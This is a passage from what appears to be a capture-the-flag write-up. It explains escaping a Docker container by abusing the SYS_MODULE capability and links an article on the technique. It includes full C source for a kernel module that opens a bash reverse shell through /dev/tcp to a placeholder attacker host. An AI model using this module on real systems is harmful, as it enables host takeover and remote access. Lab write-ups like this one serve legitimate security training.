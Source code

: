 We get a meterpreter shell as root of the docker container.

---

## Breaking Out of the Container

Let us try to see how we can break out of the container by enumerating our permissions.

![capsh-print.png](/img/monitors/capsh-print.png)

We can see that the container has SYS_MODULE permission, which allows us to modify kernel modules in the kernel of the host


We can use the following article as reference for this exploit:

[https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)

First, we must determine the IP address of the container

```
# ip a

ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever

```

The IP address is set to `172.17.0.2` meaning that the host will most probably be `172.17.0.1` since it acts as a gateway for the container network.

According to the article, we must first create a program to invoke reverse shell - `reverse-shell.c`

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/<attacker-htb-ip>/<port> 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
